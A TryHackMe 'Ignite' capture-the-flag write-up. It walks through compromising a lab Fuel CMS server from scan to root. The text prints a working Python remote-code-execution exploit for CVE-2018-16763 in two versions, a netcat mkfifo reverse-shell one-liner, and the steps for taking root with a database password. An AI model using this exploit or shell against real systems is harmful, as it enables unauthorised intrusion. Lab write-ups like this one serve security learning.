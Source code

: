 ```yaml
---
title: TryHackMe Ignite
date: 2020-12-05
categories: [TryHackMe]
thumbnail: /assets/img/thm/ignite/ignite.png
excerpt: We use an RCE to get into fuel CMS, we later found root credentials through a PHP file.
tags: [enum4linux,RCE,linpeas,searchsploit]
---
```


# TryHackMe - Ignite

A new start-up has a few issues with their web server.

---

## Nmap results

Let's start off with nmap:

`nmap -sC -sV -T4 --max-rate 2500 <Box IP> -oN ignite`

![nmap](nmap.png)

`Port 80` seems to be the only port open to us.

---

## Website

Let's take a look at the website:

![website](website.png)

Looks like we'll be dealing with `Fuel CMS`. If we scroll down a bit, we can see that it gives us a direct link to login to the CMS:

![tatsit](thatsit.png)

The username and password are given to us as well.

>Username: `admin`
>Password: `admin`

---

## Exploit

Looking for an exploit on searchsploit yields an RCE for version 1.4.1.

![searchsploit](searchsploit.png)

We can get this file with `searchsploit -m <filename>`

Examining the exploit:

```python
# Exploit Title: fuelCMS 1.4.1 - Remote Code Execution
# Date: 2019-07-19
# Exploit Author: 0xd0ff9
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763


import requests
import urllib

url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = raw_input('cmd:')
        burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        proxy = {"http":"http://127.0.0.1:8080"}
        r = requests.get(burp0_url, proxies=proxy)

        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)

        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print r.text[0:dup]
```

There are a couple things we need to change here, the `url` variable should point to our target's Fuel CMS page. This one is optional, but you can remove the lines pertaining to burp unless you plan on tunneling information to burp. But if you don't want to, just remove the `proxy` variable.

__My example__

```python
import requests
import urllib

url = "<box IP>"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
        xxxx = input('cmd:')
        exploit = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
        r = requests.get(exploit)
        html = "<!DOCTYPE html>"
        htmlcharset = r.text.find(html)
        begin = r.text[0:20]
        dup = find_nth_overlapping(r.text,begin,2)

        print(r.text[0:dup])
```

Running the exploit:

![rce](RCE.png)

You just have to make sure you execute your commands with quotes around them. So now we have a RCE running, lets grab a reverse shell. My go to one is netcat:

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

Fill in your tun0 IP accordingly. And setup your listener with the port you chose.

![user](user.png)

Your user flag is in `/home/www-data`.

---

## Root Access

I went and got `LinEmun` and `linPEAS` onto the system, LinEnum didn't show much.

linPEAS, under

`[+] Interesting writable files owned by me or writable by everyone (not in Home)`.

There was a `database.php`, full path `/var/www/html/fuel/application/config/database.php`. You can also go back to the Fuel CMS page and see this:

![database](database.png)

__Examining `database.php`__

```php
$active_group = 'default';
$query_builder = TRUE;

$db['default'] = array(
        'dsn'   => '',
        'hostname' => 'localhost',
        'username' => 'root',
        'password' => 'mememe',
        'database' => 'fuel_schema',
        'dbdriver' => 'mysqli',
        'dbprefix' => '',
        'pconnect' => FALSE,
        'db_debug' => (ENVIRONMENT !== 'production'),
        'cache_on' => FALSE,
        'cachedir' => '',
        'char_set' => 'utf8',
        'dbcollat' => 'utf8_general_ci',
        'swap_pre' => '',
        'encrypt' => FALSE,
        'compress' => FALSE,
        'stricton' => FALSE,
        'failover' => array(),
        'save_queries' => TRUE
);

// used for testing purposes
if (defined('TESTING'))
{
        @include(TESTER_PATH.'config/tester_database'.EXT);
}
```

We can see that we have the username root and a password:

>Username: `root`
>Password: `mememe`

So now let's try to change users to root and use this password.

![root](root.png)

Great! Our root flag is in `/root`.